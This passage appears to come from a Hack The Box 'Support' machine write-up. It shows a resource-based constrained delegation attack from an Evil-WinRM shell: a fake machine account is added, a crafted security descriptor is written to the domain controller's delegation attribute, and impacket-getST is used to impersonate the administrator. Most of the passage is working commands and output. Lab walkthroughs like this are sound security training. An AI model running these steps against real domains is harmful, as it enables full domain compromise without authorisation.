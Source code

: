 ```
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount fakeuser -Password $(ConvertTo-SecureString 'fakepassword' -AsPlainText -Force) -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = fakeuser$
Verbose: [+] Distinguished Name = CN=fakeuser,CN=Computers,DC=support,DC=htb
[+] Machine account fakeuser added
```

**Find it's SID:**
```
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer fakeuser 

[...]
name                   : fakeuser
objectsid              : S-1-5-21-1677581083-3380853377-188903654-5105
[...]
```

**Create a new raw security descriptor for the `fakeuser` computer principal:** (Remember change the SID to your newly created fake user.)
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5105)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

```
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5105)"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
```

**Applying the security descriptor bytes to the target machine::**
```
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

**Now, we can start to impersonate to get a ticket.**

- Before impersonation, please add `dc.support.htb` to `/etc/hosts`:

```
10.10.11.174 support.htb dc.support.htb
```

- Generate a ticket via `impacket-getST`:

```
┌──(root🌸siunam)-[~/ctf/htb/Machines/Support]
└─# impacket-getST support.htb/fakeuser:fakepassword -dc-ip $RHOSTS -impersonate administrator -spn www/dc.support.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]   Requesting S4U2self
[*]   Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```
